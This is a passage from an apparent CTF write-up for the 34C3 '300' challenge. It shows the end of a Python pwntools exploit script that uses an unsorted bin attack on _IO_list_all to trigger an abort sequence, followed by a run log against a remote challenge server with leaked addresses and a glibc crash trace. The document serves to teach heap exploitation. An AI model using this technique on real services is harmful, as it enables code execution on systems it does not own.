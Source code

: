     free(5)

    payload  = p64(0xb00bface)
    payload += p64(IO_list_all-0x10) # target
    write(5,payload)
    alloc(7)
    log.success("unsorted bin attack succeeded!")
    
    ## TRIGGER ABORT SEQ
    log.info("triggering abort sequence...")
    print ""
    free(5)
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        #r = process(['/home/vagrant/CTFs/34c3ctf/300/300'], env={"LD_PRELOAD":"./libc.so.6"})
        r = process(['/home/vagrant/CTFs/34c3ctf/300/300'], env={"LD_PRELOAD":"./libc-2.24.so"})
        #r = process(['/home/vagrant/CTFs/34c3ctf/300/300'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{%endhighlight %}
{% highlight text %}
➜  300 python solve.py 104.199.25.43 1337
[*] For remote: solve.py HOST PORT
[+] Opening connection to 104.199.25.43 on port 1337: Done
[+] libc_base at: 0x14918093c000
[+] heap_base at: 0x55c457a02000
[+] _IO_list_all at: 0x149180cfe500
[+] pIO_wstr_finish at: 0x149180cf9c90
[+] one_shot at: 0x149180a09e41
[+] ghostChunk crafted!
[+] ghostChunk placed into small_bin[4]!
[+] unsorted bin attack succeeded!
[*] triggering abort sequence...

[*] Switching to interactive mode

*** Error in `/home/user/chal': free(): corrupted unsorted chunks: 0x000055c457a02630 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x7908b)[0x1491809b508b]
/lib/x86_64-linux-gnu/libc.so.6(+0x82c3a)[0x1491809bec3a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x1491809c2d2c]
/home/user/chal(+0xa8e)[0x55c456865a8e]
/home/user/chal(+0xb34)[0x55c456865b34]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf1)[0x14918095c3f1]
/home/user/chal(+0x7ba)[0x55c4568657ba]
======= Memory map: ========
14917c000000-14917c021000 rw-p 00000000 00:00 0 
14917c021000-149180000000 ---p 00000000 00:00 0 
149180725000-14918073b000 r-xp 00000000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918073b000-14918093a000 ---p 00016000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918093a000-14918093b000 r--p 00015000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918093b000-14918093c000 rw-p 00016000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1